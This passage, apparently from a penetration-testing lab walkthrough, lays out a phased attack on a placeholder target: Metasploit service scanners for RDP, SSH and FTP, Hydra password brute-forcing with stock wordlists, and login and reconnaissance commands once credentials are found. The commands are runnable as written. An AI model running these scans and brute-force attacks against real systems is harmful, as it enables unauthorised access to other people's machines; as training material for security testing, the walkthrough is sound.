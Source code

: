 #### **Phase 2: Service Confirmation with Metasploit**
```bash
# RDP service confirmation
msfconsole -q
use auxiliary/scanner/rdp/rdp_scanner
set RHOSTS target_ip
set RPORT 3333
exploit

# SSH version and capability detection
use auxiliary/scanner/ssh/ssh_version
set RHOSTS target_ip
exploit

# FTP anonymous access testing
use auxiliary/scanner/ftp/anonymous
set RHOSTS target_ip
exploit
```

**Why This Step Matters:**
- Confirms services are actually what nmap detected
- Reveals service-specific vulnerabilities or configurations
- Provides detailed information for customizing attacks

#### **Phase 3: Systematic Credential Testing with Hydra**
```bash
# Based on confirmed services, launch targeted attacks
# RDP attack (confirmed on port 3333)
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://target_ip -s 3333 -o rdp_results.txt

# SSH attack (standard configuration)
hydra -L common_users.txt -P unix_passwords.txt ssh://target_ip -o ssh_results.txt

# FTP attack (if anonymous failed)
hydra -L ftp_users.txt -P ftp_passwords.txt ftp://target_ip -o ftp_results.txt
```

#### **Phase 4: Access Verification and Documentation**
```bash
# RDP access verification
xfreerdp /u:discovered_user /p:discovered_pass /v:target_ip:3333

# SSH access verification
ssh discovered_user@target_ip

# FTP access verification
ftp target_ip
# Test with discovered credentials

# Document system information
whoami                    # Current user context
id                       # User privileges
systeminfo               # System details (Windows)
uname -a                 # System details (Linux)
```
